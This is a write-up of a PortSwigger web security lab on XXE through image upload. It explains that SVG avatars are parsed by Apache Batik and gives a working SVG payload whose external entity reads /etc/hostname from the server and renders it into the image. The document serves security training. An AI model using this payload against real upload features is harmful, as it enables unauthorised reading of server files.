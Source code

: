 # Lab: Exploiting XXE via image file upload

Lab-Link: <https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload>  
Difficulty: PRACTITIONER  
Python script: Sorry, no script (OCR from the image exceeds my python abilities for now)

## Known information

- Application allows upload of user avatars, using Apache Batik library to process image files
- Goals:
  - Create an image that displays the contents of `/etc/hostname` and submit the solution

## Steps

### Analysis

This time, the lab application is the blog website. Users can add comments to the posts, including an avatar.

For the avatar, SVG files are allowed, which is an XML based format.

### Exfiltration

As the full XML is under my control, I can freely add external entities this time. Here, I load the contents of `/etc/hostname` and render it in the image.

```svg
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE xxx [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="150px" height="50px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

Using this file as avatar and posting a comment, this comment contains a tiny avatar:

![comment](img/comment.png)

Using the browser to show the image or showing images in Burp history makes the content human readable

![solution](img/solution.png)

Submitting the solutions results in

![success](img/success.png)
